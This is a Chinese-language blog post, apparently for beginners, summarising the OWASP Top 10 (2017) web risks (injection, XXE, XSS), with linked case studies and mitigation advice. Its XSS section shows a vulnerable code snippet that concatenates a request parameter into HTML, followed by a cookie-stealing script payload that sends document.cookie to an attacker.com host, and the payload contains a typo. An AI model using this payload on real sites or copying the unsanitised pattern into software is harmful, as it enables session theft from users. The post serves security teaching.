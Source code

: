 ```yaml
---
title: "OWASP TOP 10(2017)"
date: 2019-09-21T17:21:11+11:00
summary: 《OWASP Top 10 - 2017 The Ten Most Critical Web Application Security Risks》总结了Web应用程序最可能、最常见、最危险的十大漏洞。虽然离报告发布已经过去了两年，但是这份报告对web安全介绍还是十分有意义的。尤其是对于刚入门web安全的工程师来说，这份报告是一个非常好的指南，可以帮助IT公司和开发团队规范应用程序开发流程和测试流程，提高Web产品的安全性。本文将会根据这些漏洞类型，进行分类分析，并提出一些我个人的看法。最后会根据这套报告，对一些网站进行测试。
draft: false
---
```


[OWASP Top 10 - 2017 The Ten Most Critical Web Application Security Risks](https://www.owasp.org/images/7/72/OWASP_Top_10-2017_%28en%29.pdf.pdf)总结了Web应用程序最可能、最常见、最危险的十大漏洞。虽然离报告发布已经过去了两年，但是这份报告对web安全介绍还是十分有意义的。尤其是对于刚入门web安全的工程师来说，这份报告是一个非常好的指南，可以帮助IT公司和开发团队规范应用程序开发流程和测试流程，提高Web产品的安全性。本文将会根据这些漏洞类型，进行分类分析，并提出一些我个人的看法。最后会根据这套报告，对一些网站进行测试。

## 第一类：没有对用户输入进行验证

### A1 : 注入

在web安全中，注入是最常见也往往是影响最大的漏洞。他包括SQL、NoSQL、OS以及LDAP注入等。这些漏洞基本都是因为没有对用户的输入进行验证。其中以对数据库的注入最多。作为web应用，需要依靠许多第三方的服务（比如数据库，缓存，系统调用等等）来实现具体的功能。在web调用这些服务的时候往往是给这些服务发送一些命令，如果不对用户的输入进行验证，用户的输入就很容易的对这些们命令进行修改，达到调用其他命令的目的。

**相关案例**

[RCE with Flask Jinja Template Injection](https://medium.com/@akshukatkar/rce-with-flask-jinja-template-injection-ea5d0201b870)
[H1-4420: From Quiz to Admin - Chaining Two 0-Days to Compromise An Uber Wordpress](https://www.rcesecurity.com/2019/09/H1-4420-From-Quiz-to-Admin-Chaining-Two-0-Days-to-Compromise-an-Uber-Wordpress/)

### A4：XML外部实体漏洞（XXE）

这种漏洞主要出现在paring XML时候出了问题。这些漏洞一般出现在一些支持SOAP的web服务，服务器需要对XML格式的请求进行分析。OWASP中对这种漏洞的应对建议是：
1. 尽量使用简单的JSON请求
2. 使用安全的XML parser，升级SOAP到SOAP1.2或者更高
3. 对请求进行验证（如使用白名单等等）

**相关案例**

[OOB XXE in PrizmDoc (CVE-2018–15805)](https://medium.com/@mrnikhilsri/oob-xxe-in-prizmdoc-cve-2018-15805-dfb1e474345c)

### A7 : 跨站脚本-XSS

与A1的后端服务注入不同，XSS是对client端网页的注入，攻击对象是以client端为主。常见的XSS注入类型有：
1. 储存型（注入代码保存到Database）
2. 反射型（注入代码不保存到后端，直接显示到网页上）
   ```js=
   (String)page += "<input name='creditcard' type='TEXT' value='" 
   + request.getParameter("CC") + "'>";
   // 攻击者可以通过修改浏览器中'CC'参数来实现注入,达到窃取cookie的目的
   <script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?
   foo='+docuement.cookie</script>'
   ```
3. DOM型（一般都是单页应用中，用户可控数据被注入）
